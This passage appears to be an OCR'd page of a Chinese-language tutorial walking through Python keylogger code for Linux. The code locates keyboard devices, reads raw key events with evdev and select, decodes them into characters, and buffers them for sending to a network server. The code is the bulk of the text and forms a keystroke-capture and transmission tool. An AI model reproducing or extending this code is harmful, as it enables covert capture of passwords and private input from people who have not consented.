 ```
      result = []
      # 遍历/sys/class/input/下的所有的目录
      for each_input_dev in os.listdir(os.getcwd()):
          # 找到设备信息相关的文件
          dev_path = DEVICES_PATH + each_input_dev + '/device/name'
          # 如果这个设备是键盘设备
          if(os.path.isfile(dev_path) and device_filter_func(file(dev_path).read())):
              result.append('/dev/input/' + each_input_dev)
      if not result:
          print("没有键盘设备")
          # 直接结束该进程
          sys.exit(-1)
      return result

  def monitor_keyboard(devs):

    # 将名映射到inputDevice对象
    devices = map(InputDevice, devs)
    # dev.fd一个文件描述符， 然后建立一个字典
    devices = {dev.fd: dev for dev in devices}
    return devices
```
## 2.2 使用evdev获取键盘输入的数据

在这里我们使用evdev库来获取原始的键盘数据，在这里我们使用select库来监听键盘的状态，若有输入时，readers返回键盘的文件描述符，evdev把键盘的输入转化为多个event对象。在这里只需要筛选类型为EV_KEY的键盘输入event对象即可。库的使用说明可以参考官方文档
```
def linux_thread_func(file_name, file_type, content_handler, seconds=10):
      # 获取键盘设备
      devices = monitor_keyboard(find_keyboard_devices(device_filter))
      # 维护shift和caps状态， 对evdev库的event对象进行解析
      dec = decode_character()
      # 连接到指定的服务器
      # 运行 python server.py 可产生一个本地的服务
      server_instance = NetworkClient({"IP": "127.0.0.1", "PORT": 8888})
      # 传输一个文本传输的任务
      text_task = NetworkTaskManager(server_instance, file_type, file_name)
      hook_handler = [None, ]
      # 缓冲区处理, 关联网络文本传输任务
      char_handler = content_handler(text_task.send_content, hook_handler, seconds)

      now_t = time.time()
      while True:
          if int(time.time() - now_t) >= seconds:
              break
          # select 是监听文件描述符的一个库，监听当前所有的键盘设备
          readers, writes, _ = select(devices.keys(), [], [])
          # readers可能有多个键盘设备，所以是一个数组结构
          for r in readers:
              # 键盘有输入操作
              events = devices[r].read()
              for event in events:
                  if event.type == ecodes.EV_KEY:
                      # 转化为自定义的event对象，多了type, status_code属性
                      cus_event = CusKeyEvent(event)
                      # 对event进行解析
                      ret_char = dec(cus_event)
                      if ret_char:
                          # 将当前字符加入到缓存区，并执行相关的缓冲区操作
                          char_handler(ret_char)
```
## 2.3 解析evdev获取的原始数据